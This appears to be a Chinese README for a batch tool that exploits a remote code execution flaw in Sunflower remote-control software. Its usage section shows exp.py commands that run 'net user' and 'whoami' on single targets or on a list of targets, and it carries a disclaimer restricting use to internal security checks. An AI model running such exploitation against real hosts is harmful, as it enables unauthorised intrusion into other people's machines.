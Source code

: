 # 向日葵RCE漏洞批量检测工具

## 使用需知
仅供企业内部安全隐患排查使用

由于传播、利用此工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

## 功能
只写了漏洞利用，暂时没写端口检测


## 使用方法
```shell
Usage: python exp.py -i [--host] -p [--port] -c [--command] -f [--file]
python exp.py -i 127.0.0.1 -p 20038 -c "net user" 
python exp.py  -f targets.txt -c "whoami"
```

![image-20220222160950745](https://cdn.jsdelivr.net/gh/j2ekim/blog-image/image/image-20220222160950745.png)

![image-20220218041904120](https://cdn.jsdelivr.net/gh/j2ekim/blog-image/image/image-20220222160713132.png)
